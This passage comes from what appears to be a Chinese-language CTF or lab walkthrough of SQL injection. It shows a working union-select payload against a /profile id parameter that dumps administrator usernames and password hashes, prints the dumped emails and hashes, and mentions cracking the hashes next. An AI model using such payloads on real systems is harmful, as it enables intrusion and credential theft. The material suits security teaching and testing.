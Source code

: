 ![2-7.png](2-7.png)

结果为: `username,password,is_admin,last_login,user_id,realname,profile`

5. 根据结果爆出管理员账户密码:

```
/profile&id=-1 union select 1,2,3,4,5,group_concat(username),group_concat(password) from users where is_admin=1
```

结果为
```
brian@localhost.localdomain,
john@localhost.localdomain,
alice@localhost.localdomain,
ruby@localhost.localdomain,
leon@localhost.localdomain,
julia@localhost.localdomain

e22f07b17f98e0d9d364584ced0e3c18,
0d9ff2a4396d6939f80ffe09b1280ee1,
2146bf95e8929874fc63d54f50f1d2e3,
9f80ec37f8313728ef3e2f218c79aa23,
5d93ceb70e2bf5daa84ec3d0cd2c731a,
ed2539fe892d2c52c42a440354e8e3d5
```

哈希碰撞一下:

![2-8.png](2-8.png)
